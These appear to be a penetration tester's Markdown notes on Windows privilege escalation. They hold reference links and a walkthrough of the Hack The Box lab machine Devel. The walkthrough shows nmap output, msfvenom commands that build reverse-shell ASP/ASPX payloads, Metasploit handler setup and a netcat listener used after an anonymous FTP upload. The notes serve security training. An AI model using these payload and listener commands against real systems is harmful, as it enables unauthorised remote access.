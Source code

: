 # Windows Privilege Escalation

# Links

[FuzzySecurity | Windows Privilege Escalation Fundamentals](https://fuzzysecurity.com/tutorials/16.html)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

[Privilege Escalation - Windows · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

# **Gaining a Foothold - HTB Devel**

Nmap Result

```bash
nmap -A 10.10.10.5 -oA Devel_1000_Nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-06 08:08 EST
Nmap scan report for 10.10.10.5
Host is up (0.051s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```

The results say that FTP port is open with anonymous login allowed. Tried with uploading sample page >echo ”This is Sample text” > test.txt, uploading to the ftp port accessed through web page is working, but nmap_Results.nmap uploaded is not working, try to upload meterpreter payload.

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f asp > cal.asp
> 

>msfconsole

>use exploit/multi/handler

>set payload windows/meterpreter/reverse_tcp

>set LHOST/PORT

# Win Priv

[https://fuzzysecurity.com/tutorials/16.html](https://fuzzysecurity.com/tutorials/16.html)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/) 

[https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

# Devel - HTB

FTP port has anonymous access with upload put the file in FTP port, navigate through URl in browser got revshell

```markdown
>nmap -sC -sV --open -p- -T4 -A 10.10.10.5
#it has 21 (anonymous), 80 port open
>msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f aspx -o met.aspx
https://github.com/frizb/MSF-Venom-Cheatsheet
https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
#put shell.asp
>nc -nlvp 443
```